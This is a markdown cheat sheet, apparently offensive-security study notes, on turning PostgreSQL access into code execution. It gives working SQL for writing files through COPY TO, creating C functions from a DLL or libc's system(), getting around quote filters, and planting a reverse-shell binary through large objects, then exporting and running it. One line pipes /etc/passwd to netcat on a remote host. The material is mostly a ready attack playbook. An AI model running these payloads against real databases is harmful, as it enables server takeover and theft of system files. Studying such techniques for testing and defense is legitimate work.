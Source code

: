 

[PostgreSQL Cheat Cheat](http://pentestmonkey.net/cheat-sheet/sql-injection/postgres-sql-injection-cheat-sheet)

# Create a file on System
## Using COPY ... TO

The file content cannot have break lines. So in order to save the content correctly all break lines should be removed
**decode()** returns a byte array (bytea) not a "hex string"

```
COPY (select convert_from(decode($$my_file_content_here$$, $$base64$$),$$utf-8$$) ) TO $$c:\my_file.txt$$
```

# Creating User Defined Functions

## Check if function **foo** exits
```
SELECT 'foo'::regproc;
```

## User Defined Function (UDF)

For Windows using DLLs
```
CREATE or REPLACE function my_udf_function(text, integer) returns void as $$c:\awae.dll$$, $$my_dll_function_name$$ LANGUAGE C STRICT;
```

```
DROP function my_udf_function(text,integer)
```

For Linux 
```
CREATE OR REPLACE FUNCTION system(cstring) RETURNS int AS '/lib/libc.so.6′, 'system' LANGUAGE 'C' STRICT; — privSELECT system('cat /etc/passwd | nc 10.0.0.1 8080′); — priv, commands run as postgres/pgsql OS-level user
```

Delete function
DROP function test(text,integer)

# Avoiding Quotes

Use Tags to bypass quotes restrictions
```
"select $$test$$" 
```
Is the same as 
```
SELECT "test"
```

# Large Objects - Getting a reverse shell

Steps:
- Create a large object that holds our binary payload
- Export that object on the remote file system
- Create a Postgres User Defined Function (UDF) that uses the file we just exported from the large object as the source
- Trigger UDF and execute payload

Import large object
It's possible to manually set the large object Id (e.g 99) or will be generated.
```
SELECT lo_import($$c:\windows\win.ini$$, 99)
```

They are stored in the table PG_LARGEOBJECT - the data is splitted in 2KB chunks (pages).
If a file is 6kb it will have 3 pages (0,1,2)
```
SELECT loid, pageno FROM pg_largeobject; 

| loid | pageno | data |
------------------------
| 99   | 0      | xxx  |
| 99   | 1      | xxx  |
```


The data is bytea type. When encoding bytea only base64, hex, escape are supported
https://www.postgresql.org/docs/9.1/catalog-pg-largeobject.html
https://www.postgresql.org/docs/9.1/functions-binarystring.html

```
SELECT loid, pageno, encode(data, 'escape') FROM pg_largeobject;
```

We can save a binary into a large object (our reverse shell). For this we need to update the content of the large object. Keeping in mind that each page holds 2Kb of data
```
UPDATE pg_largeobject SET data=decode('hex_payload_here', 'hex') WHERE loid = 99 and pageno= 0
```

In case the reverse shell is bigger than 2kb we need to insert new pages for the larg object.
```
INSERT INTO pg_largeobject (loid, pageno, data) VALUES(99, 1, decode('my_payload_chunk_here', 'hex'));
```

It is possible to export a large object from the database to the file system.
We need to know which large object id, from the last example, we have created using id 99
```
SELECT lo_export(99, $$c:\rev_shell.exe$$)
```

Delete a large object bu the id
```
SELECT lo_unlink(99)
```

